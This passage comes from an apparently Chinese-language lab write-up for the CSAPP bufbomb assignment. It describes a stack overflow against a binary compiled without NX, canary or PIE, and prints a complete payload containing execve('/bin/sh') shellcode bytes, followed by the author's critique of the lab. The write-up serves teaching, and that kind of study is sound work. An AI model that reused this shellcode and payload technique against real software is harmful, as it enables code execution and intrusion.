
跳转到0x80492e0也就意味着跳过了push第二个参数。因此，我们可以直接通过栈操作到给第二个参数赋值。

当然，既然我们可以执行任意汇编代码了，那我们有很多种方法来使得输出达到我们想要的结果。

## solution4/彩蛋

* elf file: `bufbomb-no-nx`
* compile command: `gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack`
* guard: no PIE, no Canary, no NX, no ASLR

既然我们可以执行任意汇编代码，那我们为什么不试着拿Shell权限呢？首先我们需要找到一个放置Shellcode的地方。

回到我们前面给到的这个结构：``` shellcode + padding + ebp + shellcode's start addr ```

`padding + ebp`一共是24Bytes，但是考虑到Shellcode执行阶段可能遇到的`push`指令，更好的选择其实是放在`shellcode's start addr`的后面。

这时我们的payload就变成了下面的结构：

``` padding + ebp + shellcode's start addr + shellcode```

在网上找一个小一点的Shellcode[^5]，我们就得到了我们最终的Payload：

`00000000 00000000 00000000 00000000 00000000 00000000 EBP START_ADDR 31C9F7E1 B00B5168 2F2F7368 682F6269 6E89E3CD 80`

![Shellcode](https://tiger1218.com/image/pwn/final_sh_shellcode.png)

```bash
# echo getbuf returned 0xdeadbeef
getbuf returned 0xdeadbeef
```

## Summary

首先声明一点，这个Assignment在CSAPP第三版中已经没有了。所以`bufbomb.c`上面的参考价值不大。尤其是不要按照它上面的编译指令去编译：`-Og`和`-O2`会把程序结构搅乱到根本做不了，没有`-fno-stack-protector`和`-no-pie`就是字面意思上的做不了这道题。

然后谈谈我个人对这个Lab(Assignment)的理解：我并不觉得这个Lab(Assignment)很好。第一点就是CSAPP 2nd到CSAPP 3rd编辑的主旋律就是x86tox86-64，整个Lab(Assignment)在设计的时候带着IA32的思维，不难理解为什么放在现在颇有鸡肋之感。第二点是没有难度梯度，思维难度大且调试难度高的题目如果没有checkpoint很容易让人放弃。第三点就是与Buffer Lab冲突，而且Buffer Lab是它的上位替补，这个应该做过Buffer Lab的人都深有体会————深入浅出，让人醍醐灌顶。

<!--最后说一下对这门课安全项目的看法。

1. 那几个讲基础原理的PPT太浅了，而且缺少实践。学习CSAPP Labs第一需要Linux基础，第二需要Linux基础，第三还是需要Linux基础。除了极少数熟悉Linux操作的同学能从做这些题目中感觉到自己正在学知识，其他使用Windows做题的同学感受到的只能是迷惑。这种迷惑的产生一方面来自于Linux的广义上的学习资料远远多于Windows的广义上的学习资料（这又可以分为几个点，比如Linux Geeks的数量，开源带来不同等）；一方面来自于Linux的模块化。
2. 做这些Lab一定要用到调试；用到调试一定得看懂汇编；逆向工程是一件非常依赖经验的实践性学科，集成式分析软件本身就是经验的结晶，更别提把汇编拆开来看。我不相信单凭那几张PPT上面的汇编知识能够胜任————“汇编语言程序设计”可是大二下学期的课程。另外一方面来说，调试和汇编需要一部分系统知识，没有操作系统有关的实践，只有“计算机导论”这种理论性非常强的课程会让同学们在遇到和底层强相关的问题时根本没法Debug。
3. 课时问题。-->

## References

[^1]: 基本的[C语言函数调用栈](https://www.cnblogs.com/clover-toeic/p/3755401.html)知识可以看这篇文章。


[^2]: 在CTF-Wiki上简述了[ret2libc](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc)的原理和利用方法。
[^3]: [How to turn off gcc compiler optimization to enable buffer overflow? - stackoverflow](https://stackoverflow.com/questions/2340259/how-to-turn-off-gcc-compiler-optimization-to-enable-buffer-overflow)
[^4]: 我们可以使用[PWNTools中的ASM模块](https://docs.pwntools.com/en/stable/asm.html)来将汇编代码编译成字节码。
[^5]: 利用`int 0x80`执行了`/bin/sh`的一段[Shellcode](https://shell-storm.org/shellcode/files/shellcode-841.html)
